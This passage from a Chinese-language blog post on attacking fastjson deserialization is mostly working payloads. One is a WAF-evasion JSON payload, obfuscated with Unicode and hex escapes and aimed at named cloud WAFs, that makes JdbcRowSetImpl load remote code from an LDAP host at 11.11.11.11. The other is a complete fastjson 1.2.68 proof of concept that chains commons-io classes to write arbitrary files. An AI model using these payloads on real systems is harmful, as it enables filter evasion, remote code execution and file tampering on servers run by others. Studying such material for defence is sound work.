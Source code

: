 限制：

第一个需要开启`Feature.SupportNonPublicField`，实战很难遇到。

第二个依赖于`tomcat（tomcat6、7：dbcp ； tomcat8：dbcp2）`且jdk版本≤8u251；

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162344-n98p0ii.png)

## 绕waf

不同与传统json标准，在fastjson中16进制是可以被解析的。它还支持在json语句中加入注释，单引号替换双引号，默认会去除键、值外的空格、`\b`、`\n`、`\r`、`\f`等等等。

如今市面上大部分waf只针对@type 和`com.sun.rowset.JdbcRowSetImpl` 进行检测，所以我们通过结合Unicode和16进制编码即可轻松绕过waf。

**以OPPO云和阿里云waf为例**

`{"name":{"@\u0074\u0079\u0070\u0065":/*asdasd*/\r\n"java.l\x61ng.Cl\x61ss","val":"com.sun.rowset.JdbcRo\x77\x53etImpl"},"x":{"@\u0074\u0079\u0070\u0065":"com.sun.rowset.Jd\x62\x63RowSetImpl","dataSourceName":"ldap://11.11.11.11:1389/Exploit","autoCommit":true}}}`

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162404-1sehcou.png)

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162415-9o7qk74.png)

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162424-a5nmi1q.png)

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162432-mui1a40.png)

## fastjson1.2.68利用

和1.2.47版本的漏洞一样，68版本也是对checkAutoType()的的绕过，无需考虑fastjson的黑名单进行利用。

### 任意文件写入

参考：[https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)

依赖于commons-io 2.0 - 2.6 的POC：

`{  "x":{    "@type":"com.alibaba.fastjson.JSONObject",    "input":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.ReaderInputStream",      "reader":{        "@type":"org.apache.commons.io.input.CharSequenceReader",        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)"      },      "charsetName":"UTF-8",      "bufferSize":1024    },    "branch":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.output.WriterOutputStream",      "writer":{        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",        "file":"/tmp/pwned",        "encoding":"UTF-8",        "append": false      },      "charsetName":"UTF-8",      "bufferSize": 1024,      "writeImmediately": true    },    "trigger":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.XmlStreamReader",      "is":{        "@type":"org.apache.commons.io.input.TeeInputStream",        "input":{          "$ref":"$.input"        },        "branch":{          "$ref":"$.branch"        },        "closeBranch": true      },      "httpContentType":"text/xml",      "lenient":false,      "defaultEncoding":"UTF-8"    },    "trigger2":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.XmlStreamReader",      "is":{        "@type":"org.apache.commons.io.input.TeeInputStream",        "input":{          "$ref":"$.input"        },        "branch":{          "$ref":"$.branch"        },        "closeBranch": true      },      "httpContentType":"text/xml",      "lenient":false,      "defaultEncoding":"UTF-8"    },    "trigger3":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.XmlStreamReader",      "is":{        "@type":"org.apache.commons.io.input.TeeInputStream",        "input":{          "$ref":"$.input"        },        "branch":{          "$ref":"$.branch"        },        "closeBranch": true      },      "httpContentType":"text/xml",      "lenient":false,      "defaultEncoding":"UTF-8"    }  }}`
